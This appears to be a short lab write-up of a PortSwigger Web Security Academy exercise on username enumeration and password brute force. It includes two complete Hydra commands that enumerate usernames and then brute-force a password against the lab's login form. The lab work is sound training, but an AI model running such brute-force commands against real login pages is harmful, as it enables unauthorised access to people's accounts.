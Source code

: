 
Desc:This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:
- https://portswigger.net/web-security/authentication/auth-lab-usernames
- https://portswigger.net/web-security/authentication/auth-lab-passwords
To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

Usernames enumeration:
![image](https://github.com/user-attachments/assets/a109445e-c799-43db-b5d5-7c33fd464b69)

For username `access` we have different response:
![image](https://github.com/user-attachments/assets/8bdf0bc7-0076-4283-bcc0-9424426c25ff)


HYDRA try:
For username:
`hydra -L ./login-list.txt -p test -S -s 443 -f 0a6300400322b8da80c8a35e00000049.web-security-academy.net http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"`
For password:
`hydra -l access -P ./password-list.txt -t 64 -S -s 443 -f 0a6300400322b8da80c8a35e00000049.web-security-academy.net http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"`




